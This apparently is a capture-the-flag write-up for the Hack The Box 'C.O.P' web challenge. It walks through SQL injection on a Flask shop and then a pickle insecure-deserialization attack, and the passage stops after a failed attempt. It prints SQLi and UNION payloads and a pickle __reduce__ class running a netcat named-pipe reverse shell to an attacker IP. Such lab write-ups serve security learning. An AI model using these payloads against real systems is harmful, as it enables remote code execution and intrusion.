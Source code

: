 # HTB-Challenges-Web-COP

## Challenge Description
The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

![localhost_1337_(Nest Hub Max)](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/999d7d68-5db6-4b8f-b08c-5e9a6186d433)

## Reconnaissance
While scanning the code, two files stood out: **application/models.py** and **application/blueprints/routes.py**. Analyzing the code within these files reveals a concerning vulnerability. The application appears to be using path parameters directly within its SQL queries, without proper validation or sanitization. This practice makes the application highly susceptible to SQL injection attacks (SQLi).
```py
class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
```

The application uses the Jinja2 template engine, which is known to be vulnerable to SSTI attacks if not configured correctly. Additionally, before displaying, the data also undergoes processing using Jinja Filters, as indicated by the syntax `{% set item = product | pickle %}`

```jinja
<div class="row gx-4 gx-lg-5 align-items-center">
    {% set item = product | pickle %}
    <div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
    <div class="col-md-6">
        <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
        <div class="fs-5 mb-5">
            <span>£{{ item.price }}</span>
        </div>
        <p class="lead">{{ item.description }}</p>
    </div>
</div>
```

The method of storing data in the database is intriguing. Each row consolidates information into a single field, employing an encoding technique that uses `pickle` and `base64`. This leads to the use of Jinja Filters for decoding the data.

```py
with open('schema.sql', mode='r') as f:
    shop = map(lambda x: base64.b64encode(pickle.dumps(x)).decode(), items)
    get_db().cursor().executescript(f.read().format(*list(shop)))
```

## Scanning
Initially, I conducted a test for SQL injection. It's worth noting that the application employs SQLite, limiting the potential for Remote Code Execution (RCE) in this context.

![localhost_1337_view_%27%20OR%20%271%27%3D%271](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/7f5c3012-f028-4bb7-a379-6e5df22d1c4b)

We successfully injected the payload `' OR '1'='1` or `%27%20OR%20%271%27%3D%271` into the product ID via URL path parameters, allowing us to retrieve the first item. Now, our goal is to display an item that we can control, facilitating testing for Server-Side Template Injection (SSTI) or template injection.

To achieve this, I plan to create a Python script that generates a dictionary with fields similar to those the application uses. Since Jinja accesses both objects and dictionaries using dot notation, a dictionary will suffice. Additionally, I'll encode it in a way that the application can decode and display as intended.

```py
evil_item = {
    "name": "Some name",
    "description": "Some description",
    "price": "100",
    "image": "/static/images/not_found.jpg",
}

print(base64.b64encode(pickle.dumps(evil_item)).decode())
# gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg==
```

With the encoded item in hand, my next step is to showcase it in the application. I'll employ the `UNION` technique. Initially, I'll deliberately attempt to fetch non-existent data from the database and then append my encoded object to the result. This ensures that my encoded object becomes the sole data returned by the query.

```sql
' UNION SELECT 'gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg==
```
```
%27%20UNION%20SELECT%20%27gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg%3D%3D
```

![localhost_1337_view_%27%20UNION%20SELECT%20%27gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg%3D%3D](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/25844325-c408-4ac3-b16f-4ab560be673f)

## Exploitation 1 - SSTI *(Failed)*
Now that I have a way to inject a payload that controls the application's dynamic aspects, I can attempt various vulnerabilities to read the flag. The first vulnerability to test is SSTI, so I will create a payload to confirm if the application is susceptible to it.

```py
evil_item = {
    "name": "{{ 7*7 }}",
    "description": "{{ 7*7 }}",
    "price": "{{ 7*7 }}",
    "image": "{{ 7*7 }}",
}
```

Unfortunately for me, it's not.

![localhost_1337_view_%27%20UNION%20SELECT%20%27gASVPAAAAAAAAAB9lCiMBG5hbWWUjAl7eyA3KjcgfX2UjAtkZXNjcmlwdGlvbpRoAowFcHJpY2WUaAKMBWltYWdllGgCdS4%3D](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/592b423b-3ffb-4527-bb7b-61531f661947)

## Exploitation 2 - Reverse Shell via Insecure Deserialization *(Failed)*
A while back, I learned about a vulnerability called *Insecure Deserialization*. This vulnerability varies across programming languages, but the core concept is that during deserialization, specific built-in methods are invoked to create the final output. These methods can be manipulated by attackers to execute arbitrary code.

Since the application seems to be heavily reliant on `pickle`, let's start our investigation there. A quick search for "python pickle vulnerability" led me to this informative blog post: https://davidhamann.de/2020/04/05/exploiting-python-pickle/. This article discusses exploiting the `__reduce__` method to establish a reverse TCP connection.

To the best of my understanding, this vulnerability works by creating a named pipe. A TCP connection writes data to the pipe, and `/bin/sh` reads and executes the received data. This effectively allows remote code execution on the vulnerable system.

```py
class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 172.17.0.1 4444 > /tmp/f')
        return os.system, (cmd,)

print(base64.b64encode(pickle.dumps(RCE())).decode())
```

After ensuring that the test container can run each individual command and connect back to my controlled server, I proceeded to put it to the test. I started a netcat server using the command `nc -lnvp 4444`. This would allow the application to connect to my server and accept commands.

Unfortunately, despite confirming that each individual command worked within the container, the application failed to connect to the server. I tried various reverse shell payloads from the following resource: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md. While the Python payloads functioned within my test environment, they were ineffective in exploiting the actual application.
